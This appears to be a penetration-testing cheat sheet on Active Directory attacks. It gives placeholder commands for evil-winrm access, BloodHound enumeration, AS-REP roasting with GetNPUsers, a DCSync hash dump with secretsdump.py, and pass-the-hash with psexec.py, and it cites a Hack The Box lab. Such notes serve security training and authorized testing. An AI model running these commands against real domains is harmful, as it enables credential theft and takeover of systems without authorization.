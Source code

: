 # AD Enumeration

##### :red_circle: WinRM: Direct access
______
>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

>This [program](https://github.com/Hackplayers/evil-winrm) can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it.

```bash
evil-winrm -i $IPADDRESS -u $USER -p $PASSWORD
```


##### :red_circle: BloodHound
______
>BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

**Install from [git](https://github.com/fox-it/BloodHound.py) or:**
```bash
pip install bloodhound
apt install neo4j
apt install bloodhound
```

**Basic enum using valid AD credentials:**

```bash
bloodhound-python -d $DOMAIN -u $USER -p $PASSWORD -gc $HOST.$DOMAIN -c all -ns $IP_ADDRESS
#-d: Domain Controller
#-gc: Global Catalog
#-c: Which information to collect
#-ns: Alternative name server to use for queries
```  

**Using this information:**

Once we get the .json files, we need to open bloodhound in order to analyze the data:

```bash
cd /us/share/neo4j/bin/ && ./neo4j console start
#Now run in another terminal window:
bloodhound --no-sandbox
```

We can select various queries, of which some very useful ones are:
- Shortest Paths to High Value Targets
- Find principles with DCSync Rights


`GetChangesAll:` If we see that a user have GetChangesAll privileges to the
domain means that the account has the ability to request replication data
from the domain controller, and gain sensitive information such as user hashes:

![BloodHound GetchangesAll Example](https://www.hackthebox.eu/storage/startingpoint/Pathfinder/bloodhound.png)

**Check for disable Kerberos pre-auth:**

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting. We can check this using a tool such as Impacket's GetNPUsers:

```bash
GetNPUsers.py $DOMAIN/$USER -request -no-pass -dc-ip $IPADDRESS
```

We obtain the TGT ticket for the $USER and we can use Hashcat or JTR to obtain the plaintext password.


In order to leverage the GetChangesAll permission, we can use Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync attack and dump the NTLM hashes of all domain users:

```bash
secretsdump.py -dc-ip $DCIPADDRESS $DOMAINNAME/$USER:$PASSWORD@$DCIPADDRESS
```

**Privesc using Administrator NTLM Hash:**

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use Impacket's psexec.py:

```bash
psexec.py $DOMAINNAME/administrator@$DCIPADDRESS -hashes $NTMLhash:$NTLMhash
```

